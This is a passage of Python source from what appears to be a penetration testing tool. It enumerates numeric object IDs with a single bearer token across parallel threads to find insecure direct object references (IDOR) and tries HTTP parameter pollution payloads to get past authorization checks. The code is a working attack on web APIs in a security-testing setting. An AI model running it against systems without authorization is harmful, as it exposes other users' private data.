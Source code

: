 ```python
                if response.status_code == 200:
                    return {
                        'id': obj_id,
                        'url': url,
                        'response_size': len(response.text),
                        'data': response.json() if response.headers.get('content-type', '').startswith('application/json') else None
                    }
            except:
                pass
            return None
        
        # Use first available token for enumeration
        test_token = list(self.auth_tokens.values())[0]
        
        with ThreadPoolExecutor(max_workers=threads) as executor:
            # Submit all tasks
            future_to_id = {
                executor.submit(test_object_access, obj_id, test_token): obj_id 
                for obj_id in range(1, max_id + 1)
            }
            
            # Collect results
            for future in as_completed(future_to_id):
                result = future.result()
                if result:
                    accessible_objects.append(result)
                    print(f"    ✓ Found accessible object: ID {result['id']}")
        
        return accessible_objects
    
    def test_parameter_pollution(self, endpoint_pattern):
        """Test HTTP Parameter Pollution for IDOR bypass"""
        print(f"\n[+] Testing parameter pollution on {endpoint_pattern}")
        
        results = []
        test_token = list(self.auth_tokens.values())[0]
        
        # Parameter pollution techniques
        pollution_techniques = [
            {'id': '1', 'id': '2'},  # Duplicate parameters
            {'id[]': ['1', '2']},    # Array parameters
            {'id[0]': '1', 'id[1]': '2'},  # Indexed parameters
            {'user_id': '1', 'id': '2'},   # Mixed parameters
        ]
        
        for technique in pollution_techniques:
            try:
                # Convert endpoint pattern to base URL
                base_endpoint = endpoint_pattern.replace('/{id}', '')
                
                response = requests.get(
                    f"{self.base_url}{base_endpoint}",
                    params=technique,
                    headers={'Authorization': f'Bearer {test_token}'}
                )
                
                if response.status_code == 200:
                    results.append({
                        'technique': technique,
                        'response_size': len(response.text),
                        'successful': True
                    })
```